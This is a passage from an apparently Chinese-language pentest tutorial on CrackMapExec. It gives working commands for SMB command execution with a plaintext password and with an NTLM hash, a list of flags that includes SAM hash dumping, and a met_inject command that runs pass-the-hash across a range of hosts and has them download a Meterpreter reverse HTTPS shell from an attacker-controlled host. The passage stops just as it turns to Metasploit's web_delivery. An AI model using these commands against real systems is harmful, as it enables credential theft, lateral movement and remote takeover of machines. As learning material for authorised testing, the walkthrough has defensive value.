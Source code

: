 执行命令：

```python
cme smb 17.10.0.10  -u administrator -p toor(明文密码) -x whoami
cme smb 17.10.0.10  -u administrator -H afc44ee7351d61d00698796da06b1ebf -x whoami
```

其他参数

```bash
--shares	#枚举共享和访问权限
--sessions	#枚举活动会话
--disks		#枚举磁盘
--sam 		#dump目标系统中的SAM哈希值
--loggedon-users	#枚举登录用户
--users [USER]		#枚举域用户(如果指定了用户只查询其信息)
--groups [GROUP]		#枚举域组(如果指定了组其成员被列举)
--local-groups [GROUP]  #如果指定了组则枚举本地组其成员被列举
--local-groups [GROUP]	#枚举本地组，如果指定了组，则枚举其成员
-x COMMAND				#执行指定的命令
-X PS_COMMAND			#执行指定的PowerShell命令

-L， --list-modules	#列出可用的拓展功能模块
--options	#查看模块选项
-M MODULE， --module MODULE	 #使用拓展功能模块
-o MODULE_OPTION [MODULE_OPTION ...] #设置模块选项

```

GETSHELL

利用拓展功能模块，我们可以方便地getshell。我们可以使用`cme smb -L`命令查看所有`moudules`，对应的物理路径为：

```python
/usr/local/lib/python2.7/dist-packages/crackmapexec-4.0.1.dev0-py2.7.egg/cme/modules
```

其中提供的`met_inject.py`模块可以使目标下载执行`Meterpreter stager`，我们先来看下模块需要的参数：

```bash
$ cme smb -M met_inject --options
[*] met_inject module options:
    LHOST    IP hosting the handler
    LPORT    Handler port
    PAYLOAD  Payload to inject: reverse_http or reverse_https (default:reverse_https)
    PROCID   Process ID to inject into (default: current powershell process)
```
这是一个`http`或`https`的反弹shell，我们使用默认的`reverse_https`，提供需要的`LHOST`和`LPORT`的参数即可：

```
cme smb 17.10.0.10-150 -u administrator -H AFC44EE7351D61D00698796DA06B1EBF -M met_inject -o LHOST=17.10.0.1 LPORT=9999
```

命令的意思是通过pass-the-hash批量攻击`17.10.0.10-17.10.0.150`网段的主机，并使其执行meterpreter的https反弹shell。

笔者测试时遇到问题，无法用`met_inject.py`模块正常getshell，不知道什么原因。因此选择直接通过命令执行getlshell。利用metasploit的`web_delivery`模块：
